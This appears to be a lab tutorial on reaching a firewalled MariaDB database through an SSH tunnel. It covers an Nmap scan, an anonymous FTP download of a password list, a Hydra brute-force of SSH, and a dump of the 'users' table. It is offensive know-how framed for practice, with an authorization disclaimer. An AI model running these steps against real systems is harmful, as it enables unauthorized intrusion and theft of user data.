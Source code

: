 # SSH Tunneling for Connecting to a MariaDB Database from a Local Machine

This tutorial demonstrates how to connect to a MariaDB database on a remote Debian server from a local Parrot OS machine using SSH tunneling. The scenario involves discovering SSH credentials via an FTP service, brute-forcing SSH login using Hydra, and then using those credentials to establish an SSH tunnel.

## Prerequisites

- Two machines:
  - Debian server with FTP, SSH, and MariaDB services.
  - Parrot OS machine (attacker's machine).
- Nmap installed on Parrot OS.
- FTP client installed on Parrot OS.
- SSH client installed on Parrot OS.
- MariaDB client installed on Parrot OS.
- Hydra installed on Parrot OS.

## Steps

### 1. Scan the Server with Nmap

First, identify the open ports on the Debian server using Nmap.

```bash
nmap -sS -p- [Debian_Server_IP]
```

Analyze the output to find open ports for FTP (21), SSH (22), and MariaDB (3306).

### 2. Access the FTP Service

Connect to the FTP service to explore its contents.

```bash
ftp [Debian_Server_IP]
```

Log in with anonymous credentials or a known user. List the files and look for any files that might contain useful information.

```ftp
ls
get common_passwords.txt
bye
```

### 3. Discover SSH Credentials

After downloading `common_passwords.txt`, inspect it for possible SSH passwords.

```bash
cat common_passwords.txt
```

### 4. Brute-force SSH Login with Hydra

Use Hydra to attempt logging in to SSH with a list of users and the common passwords found.

```bash
hydra -L users.txt -P common_passwords.txt ssh://[Debian_Server_IP]
```

Analyze Hydra's output to find a valid username and password.

### 5. Attempt SSH Login with Discovered Credentials

Try to log in using SSH with the discovered credentials.

```bash
ssh [username]@[Debian_Server_IP]
```

### 6. List Server Sockets

Once logged in, list the server's active network connections and listening sockets to verify the MariaDB service.

```bash
ss -tulpn
```

Look for the entry corresponding to MariaDB (port 3306) and verify that it is listening but blocked to external connections (likely due to UFW).

### 7. Create an SSH Tunnel

Create an SSH tunnel to forward a local port (1234) to the remote MariaDB port (3306).

```bash
ssh -L 1234:localhost:3306 [username]@[Debian_Server_IP]
```

### 8. Install MariaDB Client on Parrot OS

If the MariaDB client is not already installed on your Parrot OS machine, install it using the package manager.

```bash
sudo apt-get update
sudo apt-get install mariadb-client
```

### 9. Connect to the MariaDB Database

Use the MariaDB client to connect to the database through the SSH tunnel.

```bash
mysql -u [db_user] -p -h 127.0.0.1 -P 1234
```

Enter the database password when prompted.

### 10. List Databases

After connecting, list all databases.

```sql
SHOW DATABASES;
```

### 11. Connect to the `api` Database

Connect to the `api` database.

```sql
USE api;
```

### 12. List Users from the `users` Table

List all users from the `users` table.

```sql
SELECT * FROM users;
```

## Summary

You have successfully established an SSH tunnel from your local Parrot OS machine to a remote MariaDB database on a Debian server. You discovered SSH credentials via the FTP service, used Hydra to brute-force the SSH login, created the tunnel, and accessed the database using the MariaDB client.

---

Ensure you have proper authorization to access and interact with the systems described in this tutorial. Unauthorized access is illegal and unethical.